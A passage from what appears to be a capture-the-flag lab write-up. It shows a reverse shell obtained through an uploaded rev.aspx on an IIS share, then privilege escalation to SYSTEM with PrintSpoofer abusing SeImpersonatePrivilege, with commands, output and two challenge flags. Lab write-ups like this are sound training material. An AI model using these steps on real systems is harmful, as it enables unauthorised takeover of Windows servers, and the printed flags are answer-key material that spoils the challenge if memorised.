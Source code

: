 Putting it in the `nt4wrksv` shared folder, opening a listener inside metasploit, and navigate in that directory in the browser. (http://10.10.161.53:49663/nt4wrksv/rev.aspx)

So now I got a reverse shell.

```bash
getuid

Server username: IIS APPPOOL\DefaultAppPool
```

First of all I am going to retrieve the flag inside the Bob directory: `THM{fdk4ka34vk346ksxfr21tg789ktf45}`

Now that I am in I can see the privileges using `whoami /priv`.

I see that I the SeImpersonatePrivilege is Enabled. So I am going to exploit that.

I will do it using `PrintSpoofer64.exe.`

Which is a tool that can exploit this vulnerability.

```bash
PrintSpoofer64.exe -i -c powershell

[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

And just like that I retrieved the flag in the administrator desktop: `THM{1fk5kf469devly1gl320zafgl345pv}`

[Relevant Report](https://www.notion.so/Relevant-Report-abd044f35721485e867b54a754a2d63c?pvs=21)

